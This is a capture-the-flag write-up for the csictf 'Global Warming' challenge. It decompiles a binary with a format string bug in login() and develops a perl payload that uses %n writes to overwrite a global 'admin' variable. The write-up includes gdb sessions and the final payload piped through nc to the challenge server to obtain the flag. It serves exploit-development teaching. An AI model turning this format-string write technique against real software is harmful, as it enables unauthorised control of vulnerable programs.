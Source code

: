 
# Global Warming

## Description

Greta Thunberg 1 Administration 0

```
nc chall.csivit.com 30023
```

## Analysis

Decompile with Ghidra. `main()` just accepts some input and passes it into `login()`:

```c
undefined4 main(void)
{
  char local_410 [1024];
  undefined *local_10;
  
  local_10 = &stack0x00000004;
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  fgets(local_410,0x400,stdin);
  login(&DAT_0804a030,local_410);
  return 0;
}
```

`login()` passes our input directly into `printf()`... and this is important because it's vulnerable to format string attacks. Then it compares a global variable called `admin` to `0xb4dbabe3` (same thing as `-0x4b24541d`) and gives us the flag if true:

```c
void login(undefined4 param_1,char *param_2)
{
  printf(param_2);
  if (admin == -0x4b24541d) {
    system("cat flag.txt");
  }
  else {
    printf("You cannot login as admin.");
  }
  return;
}
```

In other words, We should be able to write `0xb4dbabe3` to `admin` through a format string attack. Here's the address of the variable we want to write:

```
kali@kali:~/Downloads$ objdump -D global-warming | grep -A2 admin
0804c02c <admin>:
 804c02c:       00 00                   add    %al,(%eax)
        ...
```

So to start with, we can print that address, then print a bunch of words from the stack to find its offset.

```
kali@kali:~/Downloads$ perl -e 'print "\x2c\xc0\x04\x08%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x "' | ./global-warming 
,f7f432c0.fbad2087.080491b2.f7f0d000.0804c000.ff900eb8.08049297.0804a030.ff900ab0.f7f0d580.08049219.0804c02c You cannot login as admin.
```

That's an offset of 12, which we can print with:

```
kali@kali:~/Downloads$ perl -e 'print "\x2c\xc0\x04\x08 %12\$p "' | ./global-warming 
, 0x804c02c You cannot login as admin.
```

And we might have to write this a character at a time, so let's queue up the other 3 addresses for this 4-byte word.

```
kali@kali:~/Downloads$ perl -e 'print "\x2c\xc0\x04\x08\x2d\xc0\x04\x08\x2e\xc0\x04\x08\x2f\xc0\x04\x08 %12\$p %13\$p %14\$p %15\$p"' | ./global-warming
,-./ 0x804c02c 0x804c02d 0x804c02e 0x804c02fYou cannot login as admin.
```

Now we need to use `gdb` to set a breakpoint on the comparison at `0x080491cc` to see how we manipulate the value in `eax`.

```
gef➤  disas login
Dump of assembler code for function login:
   0x080491a6 <+0>:     push   ebp
   0x080491a7 <+1>:     mov    ebp,esp
   0x080491a9 <+3>:     push   ebx
   0x080491aa <+4>:     sub    esp,0x4
   0x080491ad <+7>:     call   0x80490e0 <__x86.get_pc_thunk.bx>
   0x080491b2 <+12>:    add    ebx,0x2e4e
   0x080491b8 <+18>:    sub    esp,0xc
   0x080491bb <+21>:    push   DWORD PTR [ebp+0xc]
   0x080491be <+24>:    call   0x8049050 <printf@plt>
   0x080491c3 <+29>:    add    esp,0x10
   0x080491c6 <+32>:    mov    eax,DWORD PTR [ebx+0x2c]
   0x080491cc <+38>:    cmp    eax,0xb4dbabe3
   0x080491d1 <+43>:    jne    0x80491e7 <login+65>
   0x080491d3 <+45>:    sub    esp,0xc
   0x080491d6 <+48>:    lea    eax,[ebx-0x1ff8]
   0x080491dc <+54>:    push   eax
   0x080491dd <+55>:    call   0x8049070 <system@plt>
   0x080491e2 <+60>:    add    esp,0x10
   0x080491e5 <+63>:    jmp    0x80491f9 <login+83>
   0x080491e7 <+65>:    sub    esp,0xc
   0x080491ea <+68>:    lea    eax,[ebx-0x1feb]
   0x080491f0 <+74>:    push   eax
   0x080491f1 <+75>:    call   0x8049050 <printf@plt>
   0x080491f6 <+80>:    add    esp,0x10
   0x080491f9 <+83>:    nop
   0x080491fa <+84>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x080491fd <+87>:    leave  
   0x080491fe <+88>:    ret    
End of assembler dump.
gef➤  break *0x080491cc
Breakpoint 2 at 0x80491cc
```

We can use the `%n` formatter to write to the address at the beginning of the string. It took some trial-and-error to get the value right, but `%.43985d` adds just enough characters to write `0xabe3` into `0x804c02c`.

```
kali@kali:~/Downloads$ perl -e 'print "\x2c\xc0\x04\x08\x2d\xc0\x04\x08\x2e\xc0\x04\x08\x2f\xc0\x04\x08 %.43985d%12\$n"' > global-pwning.txt 
```

See the value of `eax` at our breakpoint:

```
gef➤  r < global-pwning.txt
Starting program: /home/kali/Downloads/global-warming < global-pwning.txt

Breakpoint 2, 0x080491cc in login ()

[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0xabe3    
$ebx   : 0x0804c000  →  0x0804bf00  →  0x00000001
$ecx   : 0xffffffff
$edx   : 0xbe3     
$esp   : 0xffffca90  →  0xf7fb3000  →  0x001dfd6c
$ebp   : 0xffffca98  →  0xffffceb8  →  0x00000000
$esi   : 0xf7fb3000  →  0x001dfd6c
$edi   : 0xf7fb3000  →  0x001dfd6c
$eip   : 0x080491cc  →  <login+38> cmp eax, 0xb4dbabe3
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
───────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffca90│+0x0000: 0xf7fb3000  →  0x001dfd6c    ← $esp
0xffffca94│+0x0004: 0x0804c000  →  0x0804bf00  →  0x00000001
0xffffca98│+0x0008: 0xffffceb8  →  0x00000000    ← $ebp
0xffffca9c│+0x000c: 0x08049297  →  <main+152> add esp, 0x10
0xffffcaa0│+0x0010: 0x0804a030  →  "User"
0xffffcaa4│+0x0014: 0xffffcab0  →  0x0804c02c  →  0x0000abe3
0xffffcaa8│+0x0018: 0xf7fb3580  →  0xfbad209b
0xffffcaac│+0x001c: 0x08049219  →  <main+26> add ebx, 0x2de7
─────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x80491be <login+24>       call   0x8049050 <printf@plt>
    0x80491c3 <login+29>       add    esp, 0x10
    0x80491c6 <login+32>       mov    eax, DWORD PTR [ebx+0x2c]
 →  0x80491cc <login+38>       cmp    eax, 0xb4dbabe3
    0x80491d1 <login+43>       jne    0x80491e7 <login+65>
    0x80491d3 <login+45>       sub    esp, 0xc
    0x80491d6 <login+48>       lea    eax, [ebx-0x1ff8]
    0x80491dc <login+54>       push   eax
    0x80491dd <login+55>       call   0x8049070 <system@plt>
─────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "global-warming", stopped 0x80491cc in login (), reason: BREAKPOINT
───────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x80491cc → login()
[#1] 0x8049297 → main()
────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  
```

## Solution

We're almost there, now we just have to write the next 2 bytes with the value `0xb4db`. A little more trial-and-error to find the right value gives us `%.2294d`. We write the value to `0x804c02c`.

```
kali@kali:~/Downloads$ perl -e 'print "\x2c\xc0\x04\x08\x2d\xc0\x04\x08\x2e\xc0\x04\x08\x2f\xc0\x04\x08 %.43985d%12\$n %.2294d%14\$n"' > global-pwning.txt
```

See the value of `eax` at our breakpoint:

```
gef➤  r < global-pwning.txt
Starting program: /home/kali/Downloads/global-warming < global-pwning.txt

Breakpoint 2, 0x080491cc in login ()

[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0xb4dbabe3
$ebx   : 0x0804c000  →  0x0804bf00  →  0x00000001
$ecx   : 0xffffffff
$edx   : 0x14db    
$esp   : 0xffffca90  →  0xf7fb3000  →  0x001dfd6c
$ebp   : 0xffffca98  →  0xffffceb8  →  0x00000000
$esi   : 0xf7fb3000  →  0x001dfd6c
$edi   : 0xf7fb3000  →  0x001dfd6c
$eip   : 0x080491cc  →  <login+38> cmp eax, 0xb4dbabe3
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
───────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffca90│+0x0000: 0xf7fb3000  →  0x001dfd6c    ← $esp
0xffffca94│+0x0004: 0x0804c000  →  0x0804bf00  →  0x00000001
0xffffca98│+0x0008: 0xffffceb8  →  0x00000000    ← $ebp
0xffffca9c│+0x000c: 0x08049297  →  <main+152> add esp, 0x10
0xffffcaa0│+0x0010: 0x0804a030  →  "User"
0xffffcaa4│+0x0014: 0xffffcab0  →  0x0804c02c  →  0xb4dbabe3
0xffffcaa8│+0x0018: 0xf7fb3580  →  0xfbad209b
0xffffcaac│+0x001c: 0x08049219  →  <main+26> add ebx, 0x2de7
─────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x80491be <login+24>       call   0x8049050 <printf@plt>
    0x80491c3 <login+29>       add    esp, 0x10
    0x80491c6 <login+32>       mov    eax, DWORD PTR [ebx+0x2c]
 →  0x80491cc <login+38>       cmp    eax, 0xb4dbabe3
    0x80491d1 <login+43>       jne    0x80491e7 <login+65>
    0x80491d3 <login+45>       sub    esp, 0xc
    0x80491d6 <login+48>       lea    eax, [ebx-0x1ff8]
    0x80491dc <login+54>       push   eax
    0x80491dd <login+55>       call   0x8049070 <system@plt>
─────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "global-warming", stopped 0x80491cc in login (), reason: BREAKPOINT
───────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x80491cc → login()
[#1] 0x8049297 → main()
────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  
```

After continuing, it passes the comparison and gives us the flag!

```
gef➤  c
Continuing.
[Detaching after vfork from child process 374101]
flag
[Inferior 1 (process 374099) exited normally]
gef➤
```

Now run this exploit against the remote server to get the real flag:

```
kali@kali:~/Downloads$ perl -e 'print "\x2c\xc0\x04\x08\x2d\xc0\x04\x08\x2e\xc0\x04\x08\x2f\xc0\x04\x08 %.43985d%12\$n %.2294d%14\$n\n"' | nc chall.csivit.com 30023 | tail -1
csictf{n0_5tr1ng5_@tt@ch3d}
```

